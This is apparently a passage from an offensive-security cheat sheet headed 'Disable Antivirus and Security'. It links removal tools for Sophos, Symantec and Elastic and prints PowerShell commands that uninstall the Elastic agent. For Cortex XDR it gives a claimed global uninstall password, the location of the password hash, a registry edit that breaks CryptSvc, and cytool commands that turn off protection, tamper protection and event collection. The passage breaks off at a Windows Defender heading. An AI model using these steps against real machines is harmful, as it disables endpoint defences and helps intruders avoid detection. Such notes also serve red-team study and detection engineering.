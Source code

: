 ## Disable Antivirus and Security

### Antivirus Removal

* [Sophos Removal Tool.ps1](https://github.com/ayeskatalas/Sophos-Removal-Tool/)
* [Symantec CleanWipe](https://knowledge.broadcom.com/external/article/178870/download-the-cleanwipe-removal-tool-to-u.html)
* [Elastic EDR/Security](https://www.elastic.co/guide/en/fleet/current/uninstall-elastic-agent.html)

    ```ps1
    cd "C:\Program Files\Elastic\Agent\"
    PS C:\Program Files\Elastic\Agent> .\elastic-agent.exe uninstall
    Elastic Agent will be uninstalled from your system at C:\Program Files\Elastic\Agent. Do you want to continue? [Y/n]:Y
    Elastic Agent has been uninstalled.
    ```

* [Cortex XDR](https://mrd0x.com/cortex-xdr-analysis-and-bypass/)

    ```ps1
    # Global uninstall password: Password1
    Password hash is located in C:\ProgramData\Cyvera\LocalSystem\Persistence\agent_settings.db
    Look for PasswordHash, PasswordSalt or password, salt strings.

    # Disable Cortex: Change the DLL to a random value, then REBOOT
    reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CryptSvc\Parameters /t REG_EXPAND_SZ /v ServiceDll /d nothing.dll /f

    # Disables the agent on startup (requires reboot to work)
    cytool.exe startup disable

    # Disables protection on Cortex XDR files, processes, registry and services
    cytool.exe protect disable

    # Disables Cortex XDR (Even with tamper protection enabled)
    cytool.exe runtime disable

    # Disables event collection
    cytool.exe event_collection disable
    ```

### Disable Windows Defender
